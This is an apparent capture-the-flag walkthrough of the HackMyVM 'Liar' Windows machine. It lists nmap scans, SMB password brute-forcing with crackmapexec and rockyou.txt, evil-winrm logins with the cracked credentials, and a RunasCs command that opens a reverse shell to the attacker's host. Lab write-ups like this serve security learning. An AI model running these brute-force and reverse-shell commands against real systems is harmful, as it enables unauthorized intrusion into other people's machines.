 
![liar](https://github.com/user-attachments/assets/239fa3ab-3325-4dc4-987d-d3a5944965c7)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [sml](https://hackmyvm.eu/profile/?user=sml)         | [HackMyVm](https://hackmyvm.eu)     | Easy           | Windows   |

---






- I start with a scan of the open ports,
  
  ```bash
  nmap -p- --open -vvv -sS --min-rate 5000 -Pn -oG scan 192.168.56.103
  ```
  
  ![image](https://github.com/user-attachments/assets/2dba8e0f-c4ec-4186-86a1-ab41e69d984e)
  

- Scanning open ports.
  
  ```bash
  nmap -p80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 -sCV 192.168.56.103 -oN ports
  ```

  ![image 1](https://github.com/user-attachments/assets/0a3ae56b-0911-4f03-8059-bdd2076cd5cd)


- I access to the website.
    
    ![image 2](https://github.com/user-attachments/assets/3ed8b160-8ef0-4c87-b6c6-123b6813e497)

    

- I discover a potential user, I try to brute force his password with crackmapexec through the smb service.
    
    ```bash
    crackmapexec smb 192.168.56.103 -u nica -p /usr/share/wordlists/rockyou.txt --local-auth
    ```
    
    ![image 3](https://github.com/user-attachments/assets/f27b0754-5734-4c05-ac9a-7fb937a88eea)

    

- I log in as a `nica` with evil-winrm
    
    ```bash
    evil-winrm -i 192.168.56.103 -u nica -p hardcore
    ```
    
    ![image 4](https://github.com/user-attachments/assets/ef4a06dd-877c-4ba3-821c-f4dbfeb5ba56)

    

- I find the first flag and find another potential user.
    
    ![image 5](https://github.com/user-attachments/assets/6b52f2cf-0c2d-4cb6-89c8-eeaad90cffe7)

    

- I discover a potential user, I try to brute force his password with crackmapexec through the smb service.
    
    ```bash
    crackmapexec smb 192.168.56.103 -u akanksha -p /usr/share/wordlists/rockyou.txt --local-auth
    ```
    
    ![image 6](https://github.com/user-attachments/assets/a140aa05-3eef-4ad9-baf3-2a2101748994)

    

- I try to connect as `akanksha` with evil-winrm but it does not allow me to connect.
    
    ```bash
    evil-winrm -i 192.168.56.103 -u akanksha -p sweetgirl
    ```
    
    ![image 7](https://github.com/user-attachments/assets/e06d87f1-e379-4db1-83f1-942fb8e265a1)

    

- As it does not allow us to log in as `akanksha`, we can try to run commands as that user and create a revershell. For that we can use Runas.
    [RunasCs](https://github.com/antonioCoco/RunasCs)
    
    ![image 8](https://github.com/user-attachments/assets/2e1c807d-9fb0-49cc-b93a-03c192a5f7b9)

    

- We import the module and run the revershell as `akanksha` to my machine.
    
    ```bash
    Import-module ./Invoke-RunasCs.ps1
    Invoke-RunasCs akanksha sweetgirl powershell -Remote 192.168.56.1:4444
    ```
    
    ![image 9](https://github.com/user-attachments/assets/5ed766dd-5e31-43fd-8b18-dafbbc356f77)

    

- This user has permissions to view the root flag.
    
    ![image 10](https://github.com/user-attachments/assets/3c13a465-57ae-4d28-8afc-31573f3f102a)
